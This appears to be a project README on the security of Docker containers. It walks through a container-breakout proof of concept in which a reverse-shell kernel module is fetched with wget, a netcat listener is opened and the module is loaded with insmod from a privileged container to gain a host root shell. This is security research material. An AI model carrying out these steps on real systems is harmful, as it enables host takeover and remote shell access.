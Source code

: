 # Security Analysis of Containerizd Applications

> A security analysis conducted on containerised applications in virtualised environments.

## Introduction

Containerization is defined as a form of operating system virtualization, through which applications are run in isolated user spaces called containers, all using the same shared operating system (OS).The concept of Containerization is used in many fields such as DevOps, Microservice Architecture, Web servers and Database Sharding. This makes security a major concern.

This aim for this project is to conduct a Security Analysis of Containerized Applications in Virtualized Environments to check for vulnerabilities in the host Operating System by using several methods such as inspecting the Network bridge between the Virtualized and Host Operating System, Figuring Kernel Level Virtualization Errors, Creating a Malicious Application and Test a proof of concept, if the Host OS can be accessed from a container that is running in a virtualized environment.

 > Containerization Tool used for this Analysis is Docker

## Attack Vectors

### Modifying Kernel Space using --privileged flag

> This attack is to simulate Container Breakout and the process through which an attacker who has gained access of a Container running on a System can get access to a system can load a kernel module on to the Host Kernel Space through the Container to get a reverse shell session of the Host file System mounted on the root directory.

**Steps**

1. Change the directory to *reverseshell* and run the command *make* to build the Kernel File.
  ```bash
  cd reverseshell
  make
  ```
2. Start a Python Server in the *reverseshell* directory using the command:
  ```bash
  python3 -m http.server
  ```
3.  On a New Terminal Tab Run a Base container (here alpine) with a privileged flag and start a shell session in it using the command:
  ```bash
  docker run --rm --privileged -it alpine sh
  ```
4. Fetch the Kernel File from the server started in Step 2 using the command 
  ```bash
  wget http://172.17.0.1:8000/reverseshell_module.ko
  ```
5. Give Executable Permission to the Kernel File inside the Container using the command 
  ```bash
  chmod +x reverseshell_module.ko
  ```
6. On a New Terminal Start a Port listener on Port number 4444 as specified in the Kernel Module C Program using the command: 
  ```bash
  nc -nlvp 4444
  ```
7. Inside the Container shell of Step 3 write the Kernel Module into the Kernel Space using the command:
  ```bash
  insmod reverseshell_module.ko
  ```
**Result**

> Upon following the above a Shell session of the Host File System mounted on the root directory is received on the Port listener. This even provides privileges to access, read and modify files through the reverse shell session. This can be classified as a high level vulnerability.

---
